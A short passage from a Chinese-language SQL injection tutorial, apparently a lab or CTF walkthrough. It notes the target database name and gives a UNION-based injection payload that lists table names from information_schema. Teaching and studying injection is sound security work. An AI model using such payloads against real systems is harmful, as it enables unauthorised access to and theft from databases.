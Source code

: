 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1672038244124-7f5934f1-ab2d-42b5-ac38-0e1f557f3bf2.png)

知道当前数据库是d14_s_iproute_cn

### 获取表名

```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='d14_s_iproute_cn' -- 
```
